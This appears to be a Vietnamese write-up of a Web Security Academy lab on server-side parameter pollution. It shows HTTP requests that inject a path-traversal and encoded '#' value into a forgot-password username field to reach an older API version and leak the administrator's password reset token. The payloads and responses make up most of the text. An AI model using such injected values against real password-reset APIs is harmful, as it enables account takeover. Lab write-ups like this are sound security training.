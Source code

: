 #### Exploit
- Thử lấy **email** của `administrator` => Giống như ban đầu

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator/field/email%23
```

```json
{"type":"email","result":"*****@normal-user.net"}
```
- Quan sát các **request** trước đó ta thấy có **request** đến `/static/js/forgotPassword.js` có chứa dữ liệu cần thiết

```js
if (resetToken)
{
    window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
}
```
- Có **param** `passwordResetToken`, thử với request trên để nó có trả về giống **username** và **email** của `administrator` không

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator/field/passwordResetToken%23
```

```json
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```
- **Version** hiện tại chỉ hỗ trợ trường **email**, ta thử **version** khác, dựa vào cấu trúc **API** đã tìm thấy

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=../../v1/users/administrator/field/passwordResetToken%23
```

```json
{
  "type": "passwordResetToken",
  "result": "odrfrqttqwg9byk48earnzdv3ytn3tei"
}
```
- Truy cập đường dẫn để thay đổi **password**
